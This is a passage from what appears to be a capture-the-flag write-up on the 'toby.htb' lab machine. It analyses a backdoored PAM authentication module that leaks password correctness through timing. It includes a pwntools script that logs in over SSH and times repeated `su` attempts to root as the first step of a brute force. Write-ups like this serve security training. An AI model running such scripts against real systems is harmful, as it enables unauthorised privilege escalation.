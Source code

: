 Cross referencing this with the original `pam_sm_authenticate` the sleep and `/etc/.bd` are both not present.

[![085_pam_org_ida](/img/toby/085_pam_org_ida.png)](/img/toby/085_pam_org_ida.png)

The idea here is that with each correct letter the authentication time increases by 0.1 seconds, which lets us predict if a letter is correct. First we need to find the base time of authentication though.

We create a script using pwntools that ssh's into the target as jack and tries to su to the root user 20 times with a random password. Each try we measure the time and print out the avergage, max and min time of it.

`subrute.py`
```py
from pwn import *
import string
import time

context.log_level = 'INFO'

charspace = string.printable[:-6]
password  = ""
avg = []

s = ssh('jack', 'toby.htb', keyfile='./id_rsa')

for i in range(20):
    io = s.process('su')
    io.recvuntil(b'Password: ')
    start = time.time()

    io.sendline(b'aaaaaaaaaaaaaaaaaaaaaaa')
    io.recvline()
    io.recvline()

    diff = time.time() - start
    io.close()
    avg.append(diff)

print(f'Avergage is {sum(avg) / len(avg)}')
print(f'Max is: {max(avg)}')
```